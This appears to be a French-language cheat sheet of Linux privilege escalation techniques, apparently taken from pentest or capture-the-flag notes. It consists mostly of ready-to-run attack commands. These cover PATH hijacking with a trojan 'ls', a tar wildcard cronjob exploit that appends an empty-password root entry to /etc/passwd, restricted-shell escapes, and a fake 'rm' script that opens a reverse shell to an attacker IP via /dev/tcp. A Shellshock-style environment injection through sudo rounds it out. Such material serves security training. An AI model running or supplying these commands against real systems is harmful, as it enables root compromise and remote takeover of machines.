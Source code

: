 ### PATH Abuse
> Manipuler le PATH pour faire exécuter notre code malveillant au lieu des binaires légitimes
```bash
# Ajouter . au PATH
PATH=.:$PATH
export PATH

# Créer un binaire malveillant 
echo 'echo "PATH ABUSE!!"; /bin/bash' > ls
chmod +x ls
ls  # Execute notre code au lieu de la commande ls
```
### Wildcard Abuse
> Abuser des caractères jokers (*,?,[]) dans les scripts, souvent utilisés avec tar

```bash
# Exploiter un cronjob utilisant tar avec wildcard (*)
echo 'echo "root::" >> /etc/passwd' > root.sh
echo "" > "--checkpoint-action=exec=sh root.sh"
echo "" > --checkpoint=1
# Attendre que le cronjob s'exécute
```

### Restricted Shell Escape
> Techniques pour s'échapper d'un shell restreint (rbash, rksh, rzsh)

```bash
# Command substitution
ls -l `pwd`

# Command chaining
ls;/bin/bash

# Using environment variables
SHELL=/bin/bash exec /bin/bash

# Using shell functions
function() { /bin/bash; }; function
```

# Techniques d'élévation de privilèges Linux dans des Box
### Exploitation du PATH
Exemple (Shiftdel):
```bash
# Exploiter un script qui utilise des commandes sans chemin absolu
echo '#!/bin/bash' > ~/bin/rm
echo 'bash -i >& /dev/tcp/192.168.49.x/1234 0>&1' >> ~/bin/rm
chmod +x ~/bin/rm
# Attendre que le script s'exécute avec des privilèges élevés
```
### Variables d'environnement vulnérables
Exemple (Jordak):
```bash
# Exploiter des variables d'environnement non sécurisées
sudo -u root env 'VAR=() { :;}; /bin/bash' /usr/bin/sudo
```